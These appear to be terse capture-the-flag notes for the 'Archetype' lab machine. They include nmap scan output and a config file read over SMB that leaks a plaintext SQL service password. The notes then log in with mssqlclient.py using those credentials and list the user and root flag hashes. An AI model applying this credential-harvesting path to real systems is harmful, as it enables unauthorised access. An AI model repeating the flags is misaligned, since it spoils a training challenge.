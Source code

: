 Machine: Archetype
OS: windows
Machine Ip; 10.10.10.27
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
ENUM
####################################################################################################################################################################################################################################################################################################################################################################################################################################################################################################

                                              nmap

135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Windows Server 2019 Standard 17763 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   Target_Name: ARCHETYPE
|   NetBIOS_Domain_Name: ARCHETYPE
|   NetBIOS_Computer_Name: ARCHETYPE
|   DNS_Domain_Name: Archetype
|   DNS_Computer_Name: Archetype
|_  Product_Version: 10.0.17763
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2021-09-28T19:53:22
|_Not valid after:  2051-09-28T19:53:22
|_ssl-date: 2021-09-28T23:09:18+00:00; +25m13s from scanner time.
Aggressive OS guesses: Microsoft Windows 10 1709 - 1909 (93%), Microsoft Windows Vista SP1 (92%), Microsoft Windows Longhorn (92%), Microsoft Windows Server 2012 (92%), Microsoft Windows 10 1709 - 1803 (91%), Microsoft Windows 10 1809 - 1909 (91%), Microsoft Windows Server 2012 R2 (91%), Microsoft Windows Server 2012 R2 Update 1 (91%), Microsoft Windows Server 2016 build 10586 - 14393 (91%), Microsoft Windows 7, Windows Server 2012, or Windows 8.1 Update 1 (91%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h49m13s, deviation: 3h07m51s, median: 25m12s
| ms-sql-info: 
|   10.10.10.27:1433: 
|     Version: 
|       name: Microsoft SQL Server 2017 RTM
|       number: 14.00.1000.00
|       Product: Microsoft SQL Server 2017
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
| smb-os-discovery: 
|   OS: Windows Server 2019 Standard 17763 (Windows Server 2019 Standard 6.3)
|   Computer name: Archetype
|   NetBIOS computer name: ARCHETYPE\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2021-09-28T16:09:07-07:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-09-28T23:09:08
|_  start_date: N/A

TRACEROUTE (using port 587/tcp)
HOP RTT       ADDRESS
1   211.65 ms 10.10.14.1
2   211.82 ms 10.10.10.27
####################################################################################################################################################################################################################################################################################################################################################################################################################################################################################################
               
                                                            smbsclient
                                                            
  cat prod.dtsConfig                                              
<DTSConfiguration>
    <DTSConfigurationHeading>
        <DTSConfigurationFileInfo GeneratedBy="..." GeneratedFromPackageName="..." GeneratedFromPackageID="..." GeneratedDate="20.1.2019 10:01:34"/>
    </DTSConfigurationHeading>
    <Configuration ConfiguredType="Property" Path="\Package.Connections[Destination].Properties[ConnectionString]" ValueType="String">
        <ConfiguredValue>Data Source=.;Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc;Initial Catalog=Catalog;Provider=SQLNCLI10.1;Persist Security Info=True;Auto Translate=False;</ConfiguredValue>
    </Configuration>
</DTSConfiguration> 
\


 crendentials  sql_svc:M3g4c0rp123
 
 
 
 ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------
                                                    FOOTHOLD
 ####################################################################################################################################################################################################################################################################################################################################################################################################################################################################################################
 
 mssqlclient.py
 userid=ARCHETYPE/sql_svc
 passwd=M3g4c0rp123
 ####################################################################################################################################################################################################################################################################################################################################################################################################################################################################################################
 
 roor.txt 
 b91ccec3305e98240082d4474b848528
 user.txt
 3e7b102e78218e935bf3f4951fec21a3
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
 
